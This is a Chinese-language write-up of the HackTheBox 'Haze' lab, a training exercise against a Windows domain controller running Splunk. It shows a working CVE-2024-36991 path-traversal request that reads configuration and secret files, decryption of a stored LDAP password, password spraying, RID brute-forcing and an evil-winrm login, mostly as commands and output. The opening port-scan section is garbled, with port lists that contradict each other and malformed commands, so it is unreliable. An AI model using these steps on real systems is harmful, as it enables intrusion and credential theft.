HackTheBox Haze Writeup

`

# **Skill**

**LFI 路径穿越**
**Splunk 自定义加密方式和密钥管理**
**GMSA（组管理服务帐户）密码获取与操作**
**影子证书攻击**


# 渗透

扫描全端口，速率调低一些

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ rustscan -a 10.129.229.233 -r 1-65535 --ulimit 2000 tee res

Open 10.129.229.233:53
Open 10.129.229.233:135
Open 10.129.229.233:139
Open 10.129.229.233:445
Open 10.129.229.233:464
Open 10.129.229.233:593
Open 10.129.229.233:636
Open 10.129.229.233:3269
Open 10.129.229.233:3389
Open 10.129.229.233:4444
Open 10.129.229.233:4455
Open 10.129.229.233:5555
Open 10.129.229.233:5630
Open 10.129.229.233:6360
Open 10.129.229.233:6666
Open 10.129.229.233:8080
Open 10.129.229.233:8089
Open 10.129.229.233:9399
Open 10.129.229.233:47001
Open 10.129.229.233:49667
Open 10.129.229.233:49666
Open 10.129.229.233:49664
Open 10.129.229.233:49663
Open 10.129.229.233:49665
Open 10.129.229.233:49668
Open 10.129.229.233:46979
Open 10.129.229.233:46980
Open 10.129.229.233:51708
Open 10.129.229.233:51713
Open 10.129.229.233:51711
Open 10.129.229.233:51731
Open 10.129.229.233:51759
Open 10.129.229.233:41
Open 10.129.229.233:41
Open 10.129.229.233:41
Open 10.129.229.233:41

┌──(Oct㉿kali)-[~/MyFile]
└─$ grep -p '.*' res | grep -vE '[41|12]' | paste -sd.

53,88,13,139,389,445,464,593,636,3299,3286,5985,8000,8089,9399,47001,49667,49666,49664,49663,49665,49668,46979,46980,51708,51713,51711,51731,51759

┌──(Oct㉿kali)-[~/MyFile]
└─$ ports=$(grep -oP "(?<=\d+).*" res | grep -vE '[41|12]' | paste -sd.)
```


端口详细探测

```zsh
┌──(Oct㉿kali)-[~]                                          
└─$ sudo nmap -Pn -A -sV -p$ports 10.129.229.233                                   

PORT      STATE SERVICE       VERSION          
53/tcp    open  domain        Simple DNS Plus      
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 20:54:30Z)                                       
135/tcp   open  msrpc         Microsoft Windows RPC      
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn    
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)          
| ssl-cert: Subject: commonName=dc01.haze.htb         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb                                   
| Not valid before: 2025-03-05T07:12:20             
|_Not valid after:  2026-03-05T07:12:20           
|_ssl-date: TLS randomness does not represent time        
445/tcp   open  microsoft-ds?                        
464/tcp   open  kpasswd5?                           
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0      
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)           
| ssl-cert: Subject: commonName=dc01.haze.htb           
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb                                    
| Not valid before: 2025-03-05T07:12:20             
|_Not valid after:  2026-03-05T07:12:20              
|_ssl-date: TLS randomness does not represent time       
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)            
|_ssl-date: TLS randomness does not represent time     
| ssl-cert: Subject: commonName=dc01.haze.htb         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb                                   
| Not valid before: 2025-03-05T07:12:20             
|_Not valid after:  2026-03-05T07:12:20                 
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)         
| ssl-cert: Subject: commonName=dc01.haze.htb           
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb                                  
| Not valid before: 2025-03-05T07:12:20              
|_Not valid after:  2026-03-05T07:12:20                 
|_ssl-date: TLS randomness does not represent time            
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)   
|_http-title: Not Found                         
|_http-server-header: Microsoft-HTTPAPI/2.0        
8000/tcp  open  http          Splunkd httpd     
| http-robots.txt: 1 disallowed entry       
|_/                                          
| http-title: Site doesn't have a title (text/html; charset=UTF-8).    
|_Requested resource was http://10.129.229.233:8000/en-US/account/login?return_to=%2Fen-US%2F                                   
|_http-server-header: Splunkd                  
8088/tcp  open  ssl/http      Splunkd httpd      
|_http-server-header: Splunkd                       
|_http-title: 404 Not Found                         
| http-robots.txt: 1 disallowed entry               
|_/                     
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser  
| Not valid before: 2025-03-05T07:29:08             
|_Not valid after:  2028-03-04T07:29:08             
8089/tcp  open  ssl/http      Splunkd httpd        
|_http-title: splunkd                               
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser        
| Not valid before: 2025-03-05T07:29:08             
|_Not valid after:  2028-03-04T07:29:08             
| http-robots.txt: 1 disallowed entry               
|_/                                                 
9389/tcp  open  mc-nmf        .NET Message Framing
...

sudo nmap -sT -p$ports --script=vuln -O -Pn 10.129.229.233
sudo nmap -sU --top-ports 20 -Pn 10.129.229.233
sudo nmap -sU -p53,123 -sCV -Pn 10.129.229.233
```


访问 `8000` 端口，是一个 `splunk enterprise`，这个 `web` 产品有 `CVE`


CVE-2024-36991




目标是 `Windows`，进行路径穿越，读取成功，可惜这些密文解密不了

```zsh
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd HTTP/1.1
Host: 10.129.229.233:8000
```



我们拥有目标文件读取权限，`splunk` 默认路径如图



`splunk` 产品手册中写了各种配置文件的路径
https://docs.splunk.com/Documentation/Splunk/9.4.1/Admin/Listofconfigurationfiles



`default` 目录是 `Splunk` 自带的目录，看一下身份验证配置文件

```
$SPLUNK_HOME/etc/system/default/authentication.conf
```



`local` 目录是用户自定义的，在其中发现了 `password` 加密密文，这串密文无法被识别类型，是 `splunk` 自带的加密方式

```
$SPLUNK_HOME/etc/system/local/authentication.conf
```



这里还指定了 `LDAP` 目录的用户名，以及验证方式为账号名

```zsh
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
userNameAttribute = samaccountname
```


`splunk.secret`存储着加密密钥，我们可以用它来解密密文

```
/etc/auth/splunk.secret
```



使用 `splunksecrets` 解密

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ splunksecrets splunk-decrypt -S splunk.secret                                                                                                                     
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24
```


`ldap` 用户名登录通常是连续的字符串，不能出现空格，对用户名进行排列组合一下

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ cat user.txt                
paul_taylor
paul.taylor
p_taylor
p.taylor
```


发现用户名为 `paul.taylor`

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc ldap 10.129.229.233 -u user.txt -p "Ld@p_Auth_Sp1unk@2k24"

SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.233  389    DC01             [-] haze.htb\paul_taylor:Ld@p_Auth_Sp1unk@2k24
LDAP        10.129.229.233  389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```


`paul.taylor` 用户还可以登录 `smb`

```bash
┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc smb 10.129.229.233 -u paul.taylor -p "Ld@p_Auth_Sp1unk@2k24" 
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.233  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 

┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc winrm 10.129.229.233 -u paul.taylor -p "Ld@p_Auth_Sp1unk@2k24"
WINRM       10.129.229.233  5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.129.229.233  5985   DC01             [-] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```


爆破所有用户名

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc smb 10.129.229.233 -u paul.taylor -p "Ld@p_Auth_Sp1unk@2k24" --rid-brute                                                                                      
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.233  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
SMB         10.129.229.233  445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.129.229.233  445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.129.229.233  445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.129.229.233  445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.129.229.233  445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.129.229.233  445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.129.229.233  445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.229.233  445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.129.229.233  445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.229.233  445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.229.233  445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.229.233  445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.129.229.233  445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.129.229.233  445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.229.233  445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.129.229.233  445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.129.229.233  445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.129.229.233  445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.129.229.233  445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.129.229.233  445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.129.229.233  445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.129.229.233  445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.129.229.233  445    DC01             1112: HAZE\Support_Services (SidTypeGroup)

```


对爆破出来的用户名进行一波喷洒，发现 `mark.adams`同样可以被登录

```zsh
┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc smb 10.129.229.233 -u users.txt -p Ld@p_Auth_Sp1unk@2k24  --continue-on-success
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.233  445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\DnsAdmins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\DnsUpdateProxy:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
SMB         10.129.229.233  445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\gMSA_Managers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\Splunk_Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\Backup_Reviewers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\Splunk_LDAP_Auth:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.229.233  445    DC01             [-] haze.htb\Support_Services:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
```


测试权限，发现能够登录 `winrm`

```zsh
┌──(Oct㉿kali)-[~/MyFile]              
└─$ nxc smb 10.129.229.233 -u mark.adams -p "Ld@p_Auth_Sp1unk@2k24" 
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)            
SMB         10.129.229.233  445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24  

┌──(Oct㉿kali)-[~/MyFile]
└─$ nxc ldap 10.129.229.233 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.233  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 

┌──(Oct㉿kali)-[~/MyFile/blood]
└─$ nxc winrm 10.129.229.233 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24
WINRM       10.129.229.233  5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.229.233  5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```


第一个低权限用户权限到手

```zsh
evil-winrm -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 -i 10.129.229.233
```



还可以做一些基础的信息探测

```zsh
whoami /all               # 当前用户详细信息，包括组
hostname                  # 主机名
ipconfig /all             # 网络配置
net users /domain         # 枚举域内所有用户
net group /domain         # 域中的组
net group "Domain Admins" /domain   # 域管
Get-ChildItem C:\Users -Force  # 翻目录
```


收集一下域信息，并导入 `bloodhound`

```zsh
┌──(Oct㉿kali)-[~]
└─$ nxc ldap 10.129.229.233 -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --bloodhound --collection All --dns-server 10.129.229.233
SMB         10.129.229.233  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.233  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.229.233  389    DC01             Resolved collection methods: session, rdp, objectprops, group, dcom, container, trusts, localadmin, psremote, acl
LDAP        10.129.229.233  389    DC01             Done in 01M 28S
```

我们发现当前用户是 `GMSA_MANAGERS` 组成员
